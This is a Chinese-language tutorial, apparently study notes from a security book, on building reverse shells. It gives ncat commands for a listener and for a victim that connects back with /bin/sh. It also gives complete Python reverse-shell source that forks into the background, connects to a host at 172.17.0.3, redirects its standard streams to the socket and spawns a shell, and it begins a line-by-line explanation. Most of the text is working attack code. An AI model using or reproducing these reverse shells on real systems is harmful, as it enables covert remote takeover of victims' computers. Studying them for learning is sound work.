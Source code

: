 ### ncat執行reverse shell
#### 攻擊端
攻擊端先對8088port進行監聽，等待被客戶端上頭的腳本啟動
假設攻擊端IP位址為172.17.0.3
```
ncat -lv 8088
```
#### 客戶端
客戶端電腦被偷偷放入某個程式，然後啟動了ncat
```
ncat -v -e "/bin/sh"  172.17.0.3 8088 
```
---
接下來攻擊端就能掌控客戶端的電腦了  

<div style="color:red"">
雖然<br>
ncat -v -e "/bin/bash -i"  172.17.0.3 8088 <br>
可能也可以，但是經過實測，更常出現錯誤與非必要的CPU佔用。<br>
強烈建議用/bin/sh  
</div>

### python製作的reverse shell客戶端

這是源於參考書本頁碼P80的範例  
在大概讀完了code之後，我們接著來進行分析。  
這次的分析其實可以促進我們對於Unix,Linux等支持POSIX的系統有更深入的理解  
```python
import socket
import subprocess
import os

#設定連線為TCP
socket_handler = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#測試建立子程序是否失敗
try:
    if os.fork() > 0:
        os._exit(0)
except OSError as error:
    print('Error in fork process: %d (%s)' % (error.errno, error.strerror))
    pid = os.fork()
    if pid > 0:
        print('Fork Not Valid!')
        
#建立TCP socket連線
socket_handler.connect(("172.17.0.3", 45679))

#將socket連接到系統的標準輸入輸出，會在後續進行解釋。
os.dup2(socket_handler.fileno(),0)
os.dup2(socket_handler.fileno(),1)
os.dup2(socket_handler.fileno(),2)

#啟動shell
shell_remote = subprocess.call(["/bin/sh"])

```
首先是設定TCP連線
```python
socket_handler = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
實際進行連線
```python
socket_handler.connect(("172.17.0.3", 45679))
```